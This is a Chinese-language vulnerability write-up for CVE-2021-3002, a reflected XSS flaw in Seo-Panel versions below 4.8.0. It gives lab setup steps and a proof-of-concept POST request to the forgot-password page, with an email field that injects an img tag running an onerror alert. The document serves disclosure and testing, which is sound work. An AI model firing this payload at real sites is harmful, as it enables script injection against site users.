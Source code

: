 # Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](images/202202101924919.png)

## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)

![](images/202202101924473.png)



成功弹窗 ,造成 反射型XSS 漏洞



## 漏洞POC



请求包如下



```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```